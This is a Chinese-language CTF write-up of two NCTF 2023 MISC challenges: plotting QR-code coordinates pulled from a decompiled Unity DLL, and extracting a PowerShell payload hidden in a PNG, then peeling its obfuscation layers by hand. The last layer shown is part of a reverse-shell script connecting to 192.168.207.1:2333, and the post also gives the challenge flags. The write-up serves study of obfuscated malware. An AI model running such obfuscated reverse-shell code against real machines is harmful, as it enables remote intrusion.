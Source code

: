 ```yaml
---
title: NCTF 2023 个人部分题解
published: true
---
```


| 目录跳转: |
|--------|
| [MISC题目: jump for signin](#题目-jump-for-signin) |
| [MISC题目: NCTF2077: jackpot](#题目-nctf2077-jackpot) |


# [](#header-1)MISC部分

### [](#header-31)题目: jump for signin

首先，对于这个题我的想法是比较片面和主观的. 我刚开始认为flag在游戏模型里，准备下unity看反编译出的游戏素材. 后面跟其他师傅交流探讨才知道原来flag就藏在源码里  

这个题有两个思路:  
1、反编译Assembly-CSharp.dll后，直接修改Assembly-CSharp.dll中的游戏代码，让二维码一开局就展现出来  
2、反编译Assembly-CSharp.dll，提取二维码坐标以后用二维平面展示出来  
由于我身边正好趁手，因此选择了第二种方案  

注意到，下面变量存在异常    
```c#
{
  class CubeGenerator{
    public int[][] cubes_all = new int[][]{
      new int[]{...},
      new int[]{...},
      new int[]{...},
      ...
    }
  }
}
```
注意到cubes_all该变量有大量疑似坐标点  
![avatar](/image/nctf-0.png)  
观察后不难发现，new int[]中的数据应该是以下规律排列:  
```c#
new int[]{x轴坐标, y轴坐标, z轴坐标, 该方块颜色}
```
且y轴坐标全都相同，方块颜色只有0 1两个值  
因此写个脚本，提取所有的坐标以后再过滤无用的值，最后用像素绘图库绘图出来  
```py
import leectf

f = open('game.txt') #game.txt存放所有的点坐标
a = f.read()
f.close()

a = a.replace('\n','').replace('\t','')

pts = []

a1 = a.split('new int[]{')
for i in a1:
    try:
        i1 = i.split('}')[0]
        i2 = i1.split(',')
        if int(i2[3])==1:continue
        pts.append([int(i2[0]),int(i2[2])]) #忽略y轴坐标
    except:
        pass

leectf.plot.draw2DPixel(pts)
```
出现二维像素图，扫描即获得flag  
![avatar](/image/nctf-1.png)  
NCTF{25d8fdeb-0cb6-4ad4-8da1-788a72e701f0}  

### [](#header-32)题目: NCTF2077: jackpot

首先，下载png图片和exe  
<a href="https://zysgmzb.club/hello/nctf.png">https://zysgmzb.club/hello/nctf.png</a>  
<a href="https://zysgmzb.club/hello/target.exe">https://zysgmzb.club/hello/target.exe</a>  

拿到后，先分析png  
在这里，使用Invoke-PSImage技术可以解png的ps混淆，Invoke-PSImage解码exp如下所示  
```py
from PIL import Image

def solove_png(image_path):
    img = Image.open(image_path)
    width, height = img.size
    extract_data = bytearray()
    for y in range(height):
        for x in range(width):
            pixels = img.getpixel((x, y))
            extract_byte = (pixels[1] & 0x0F) | ((pixels[2] & 0x0F) << 4)
            extract_data.append(extract_byte)
    return extract_data

image_path = "nctf.png"
data = solove_png(image_path)

with open('1.bin', 'wb') as f:
    f.write(data)
```
解码后是一堆混淆后的powershell代码，怕一些层中间藏有信息，因此我们层层剥除来解混淆  

#### [](#header-4)第一层:  
```powershell
&((GV '*mdR*').NaMe[3,11,2]-JoIN'')
(NEw-ObjeCt  sySTeM.iO.sTReamreadEr(
    (NEw-ObjeCt  Io.cOMPrEssIoN.DEflATeSTREaM(
      [sYsTEM.iO.MemoRYsTReaM][cOnVert]::frOMbAsE64StRinG( '密文' ) ,[Io.cOMpReSsiON.cOMPreSsIonMoDe]::dEcOmprESs
    )) , [tEXT.EncoDING]::aScII
)).reADTOeNd()
```
第一层最简单，把开头的```&((GV '*mdR*').NaMe[3,11,2]-JoIN'')```去掉后，在前面加echo就行了  
得到能进入第二层的代码为:  
```powershell
echo (NEw-ObjeCt  sySTeM.iO.sTReamreadEr(
    (NEw-ObjeCt  Io.cOMPrEssIoN.DEflATeSTREaM(
      [sYsTEM.iO.MemoRYsTReaM][cOnVert]::frOMbAsE64StRinG( '密文' ) ,[Io.cOMpReSsiON.cOMPreSsIonMoDe]::dEcOmprESs
    )) , [tEXT.EncoDING]::aScII
)).reADTOeNd()
```

#### [](#header-4)第二层:  
```powershell
(
  '密文'.sPLIt('<r_l:{&Z' )
  | %{ ([cOnVErt]::toInt16( ([strING]$_ ) , 16 )-aS[cHAr])}
) -JOIN ''
| & ( $EnV:COmspEc[4,15,25]-jOIN'')
```
这层我们逐个剥除慢慢试. 不难发现，首先在最外层包个括号后，再去掉```| & ( $EnV:COmspEc[4,15,25]-jOIN'')```，最后再在前面加个echo就行了  
得到进入第三层的代码是:  
```powershell
echo ((
  '密文'.sPLIt('<r_l:{&Z' )
  | %{ ([cOnVErt]::toInt16( ([strING]$_ ) , 16 )-aS[cHAr])}
) -JOIN '')
```

#### [](#header-4)第三层:  
```powershell
 .(([STRINg]$VeRbOSEPrefEReNcE)[1,3]+'X'-jOIN'')
(([rUNtiME.INTERoPsERvIceS.MaRshal]::PTRtOstrinGBsTr(
  [runtIme.INTeRopSeRviCES.mARShAl]::seCUResTrInGTObsTR( $('密文' | conVeRtto-SEcurEsTrIng -key  (143..112)) )
)))
```
这层虽然看起来很抽象，但是仔细看代码还是不难懂. 把前面```.(([STRINg]$VeRbOSEPrefEReNcE)[1,3]+'X'-jOIN'')```这个执行的部分删掉，保留后面解密的代码，再在前面加个echo就行了  
得到进入第四层的代码是:  
```powershell
echo (([rUNtiME.INTERoPsERvIceS.MaRshal]::PTRtOstrinGBsTr(
  [runtIme.INTeRopSeRviCES.mARShAl]::seCUResTrInGTObsTR( $('密文' | conVeRtto-SEcurEsTrIng -key  (143..112)) )
)))
```

#### [](#header-4)第四层:  
```powershell
$socket = new-object System.Net.Sockets.TcpClient('192.168.207.1', 2333);
if ($socket -eq $null) { exit 1 }
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
$ffllaagg = "NCTF{5945cf0b-fdd6-4b7b";
do {
    $writer.Flush();
    $read = $null;
    $res = ""
  ...省略代码...
```
很明显，前半部分flag已经出来了. 这里不做再多解释  
NCTF{5945cf0b-fdd6-4b7b  

继续分析exe，直接二进制查看器搜flag关键字，拿下flag后半段  
-873e-12a9595bbce8}  

组合起来就是: NCTF{5945cf0b-fdd6-4b7b-873e-12a9595bbce8}  

### [](#header-3)剩余题目以后再更新

